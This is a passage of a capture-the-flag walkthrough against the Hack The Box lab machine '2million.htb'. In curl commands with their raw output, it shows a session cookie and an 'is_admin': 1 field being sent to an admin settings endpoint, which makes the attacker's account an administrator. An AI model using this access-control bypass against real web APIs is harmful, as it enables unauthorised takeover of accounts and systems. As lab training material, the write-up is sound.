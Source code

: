 ```
< Server: nginx
< Date: Tue, 06 Aug 2024 18:45:00 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [70 bytes data]
100    84    0    59  100    25     72     30 --:--:-- --:--:-- --:--:--   102
* Connection #0 to host 2million.htb left intact
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```
Now we need the `is_admin`parameter:
```
$ curl -v -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=7a0pbm0uacm9s69027tjukf5e9" --header "Content-Type: application/json" --data '{"email":"test@test.com", "is_admin": 1 }' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.221
*   Trying 10.10.11.221:80...
* Connected to 2million.htb (10.10.11.221) port 80
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.8.0
> Accept: */*
> Cookie: PHPSESSID=7a0pbm0uacm9s69027tjukf5e9
> Content-Type: application/json
> Content-Length: 41
>
} [41 bytes data]
* upload completely sent off: 41 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Tue, 06 Aug 2024 18:45:51 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [55 bytes data]
100    85    0    44  100    41     50     47 --:--:-- --:--:-- --:--:--    97
* Connection #0 to host 2million.htb left intact
{
  "id": 13,
  "username": "shavigio",
  "is_admin": 1
}
```
We are admin  now.
```
$ curl -sv http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=7a0pbm0uacm9s69027tjukf5e9" --header "Content-Type: application/json" --data '{"username" :"shavigio"}'
```